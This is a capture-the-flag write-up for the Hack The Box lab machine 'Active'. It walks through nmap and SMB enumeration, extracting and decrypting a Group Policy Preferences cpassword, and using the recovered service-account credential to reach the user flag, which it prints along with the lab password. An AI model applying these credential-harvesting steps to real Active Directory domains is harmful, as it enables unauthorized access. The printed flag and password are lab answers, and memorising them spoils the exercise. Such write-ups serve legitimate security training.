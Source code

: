 ```yaml
---
title: Hack The Box - CTF Lab - Active - Easy
date: 2025-05-25 00:00:01 +0800
image: /images/thumbnails/Active.png
categories: [HTB Labs]
tags: [CPTS, Easy]
---
```

Active is an easy to medium difficulty machine, which features two very prevalent techniques to gain privileges within an Active Directory environment.

We of course start with a full nmap scan:
```
sudo nmap -sC -sV -p- 10.10.10.100

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-26 16:18 EDT
Nmap scan report for 10.10.10.100
Host is up (0.028s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-26 20:19:18Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-26T20:20:15
|_  start_date: 2025-05-26T19:55:29

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.87 seconds
```
From the nmap scan, we notice that the host is a Domain Controller since it is running LDAP. We also know the OS version is Windows Server 2008 and the domain is active.htb. 

We add the domain name to our /etc/hosts file:
```
10.10.10.100 active.htb
```

Like we did in HTB-Forest, we can try using Impacket's GetNPUsers.py to see if there are any domain users who do not have Kerberos preauthentication enabled which would allow us to access their TGT/hashed password. 

```
GetNPUsers.py -dc-ip 10.10.10.100 -request 'active.htb/'

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C09075A, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v1db1
```
Unfortunately we see that the DC does not allow for anonymous binding.

Next, we try testing against the SMB service. 

```
smbclient -N -L //10.10.10.100
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
SMB1 disabled -- no workgroup available
```
We see that anonymous login is successful and we have several shares that are listed. 

We test to see if we can access any of these shares and we do find a share that allows read access:
```
smbclient -N //10.10.10.100/Replication
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 21 06:37:44 2018
  ..                                  D        0  Sat Jul 21 06:37:44 2018
  active.htb                          D        0  Sat Jul 21 06:37:44 2018

		5217023 blocks of size 4096. 278565 blocks available
smb: \> 
```
After changing directory to active.htb, we find many files, therefore we download them all recursively with 3 smb commands:
```
smb: \> RECURSE ON 
smb: \> PROMPT OFF
smb: \> mget *

getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 23 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\GPE.INI of size 119 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI (0.7 KiloBytes/sec) (average 0.2 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol of size 2788 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol (12.5 KiloBytes/sec) (average 2.9 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml (3.1 KiloBytes/sec) (average 3.0 KiloBytes/sec)
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 1098 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (7.1 KiloBytes/sec) (average 3.4 KiloBytes/sec)
getting file \active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 3722 as active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (30.3 KiloBytes/sec) (average 5.7 KiloBytes/sec)
```
Once we look through all the files, we see a Guests.xml file:
```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
with username active.htb\SVC_TGS
and password that looks encrypted:
```
edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

We look this up online and see that it is a Group Policy Preferences (GPP) AES256 encrypted password with a known static key. We can use the tool gpp-decrypt to decrypt this password (https://github.com/t0thkr1s/gpp-decrypt).

We download the gpp-decrypt from the github instructions and use it with python3 to decrypt the password. 
```
sudo python3 gpp-decrypt.py -f ~/Downloads/Groups.xml
/home/kchen/gpp-decrypt/gpp-decrypt.py:10: SyntaxWarning: invalid escape sequence '\ '
  banner = '''

                               __                                __ 
  ___ _   ___    ___  ____ ___/ / ___  ____  ____  __ __   ___  / /_
 / _ `/  / _ \  / _ \/___// _  / / -_)/ __/ / __/ / // /  / _ \/ __/
 \_, /  / .__/ / .__/     \_,_/  \__/ \__/ /_/    \_, /  / .__/\__/ 
/___/  /_/    /_/                                /___/  /_/         

[ * ] Username: active.htb\SVC_TGS
[ * ] Password: GPPstillStandingStrong2k18
```
Now we have the password for the domain TGS service account: GPPstillStandingStrong2k18

Now we can use smbclient again with these credentials to check if we have more shares available:
```
smbclient -L //10.10.10.100 -U SVC_TGS%GPPstillStandingStrong2k18

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
SMB1 disabled -- no workgroup available
```
and we see that we now have the Users share.

We browse to it and find the user flag in the SVC_TGS Desktop folder:
```
09022c4e2bd9be3d687a4c9fd7f4b932
```

### user.txt found



